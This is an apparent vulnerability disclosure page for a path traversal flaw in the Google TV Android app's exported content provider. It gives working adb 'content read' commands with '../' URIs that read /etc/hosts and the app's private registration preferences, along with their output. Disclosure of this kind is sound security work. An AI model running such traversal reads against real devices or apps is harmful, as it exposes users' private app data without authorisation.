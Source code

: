 ```yaml
---
layout: page
title: CVE-yayplaceholder-yay Details
permalink: /cves/CVE-yayplaceholder-yay
---
```


|    **Product**    | Google TV version 4.39.2590.678247678.4-release |
|    **Severity**   |                   ???                   |
| **CVE Reference** |              CVE-yayplaceholder-yay              |
|      **Type**     |             Path Traversal            |

## Description

The Google TV Android application (`com.google.android.videos`) had an exported Content Provider which contains a path traversal vulnerability. Specifically, the vulnerable Content Provider is `com.google.android.apps.googletv.app.image.PosterSharingContentProvider`.

This issue was exploitable under the following conditions:

* The underlying Google Account was a part of a Google Family
* The Google Family had previously purchased products in the Family Library
* The application has previously been opened and viewed the Highlights section

## Impact

This can allow the calling application to view files on the file system within the context of the Google TV Android application.

## Proof of Concept (PoC)

The following code snippet shows that the `adb shell` user on a Samsung Galaxy S24 could abuse the vulnerable Content Provider to read the `/etc/hosts` file:

```
e1s:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),1078(ext_data_rw),1079(ext_obb_rw),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid),3012(readtracefs) context=u:r:shell:s0

e1s:/ $ content read --uri content://com.google.android.videos.postersharingcontentprovider/../../../../../../etc/hosts 
127.0.0.1       localhost
::1             ip6-localhost
```

Additionally, this issue could have been used to read files that were in Google TV's private files directory:

```
e1s:/ $ cat /data/data/com.google.android.videos/shared_prefs/registration_data.xml
cat: /data/data/com.google.android.videos/shared_prefs/registration_data.xml: Permission denied

e1s:/ $ content read --uri content://com.google.android.videos.postersharingcontentprovider/../../shared_prefs/registration_data.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="last_successful_registration_environment_url">notifications-pa.googleapis.com</string>
    <boolean name="is_registered_to_unified_fcm_registration" value="false" />
    <int name="last_successful_registration_request_hash_code" value="364779808" />
    <long name="last_successful_registration_time_ms" value="1728826771075" />
    <string name="fetch_only_id">c21e1400-64e6-4663-a32c-5682569d2bc1</string>
    <string name="internal_target_id">Ch1nY21fZm86djE6Njc3MDQ3MDA2Mzg2MzMxNTk2Nw</string>
    <int name="last_successful_registration_account_type" value="1" />
</map>
```

## Technical Details

The vulnerable Content Provider is meant to host files that are hosted in `/data/user/0/com.google.android.videos/files/offline_images/`. However, this directory is not created by default.

One method to create this directory is to go to the Highlights section of the application, assuming that the underlying Google account met the following conditions:

* The Google Account was a part of a Google Family
* The Google Family had previously purchased TV shows or movies

Once those conditions are met, any application could have exploited this issue by added `../` characters to the Content Provider URI.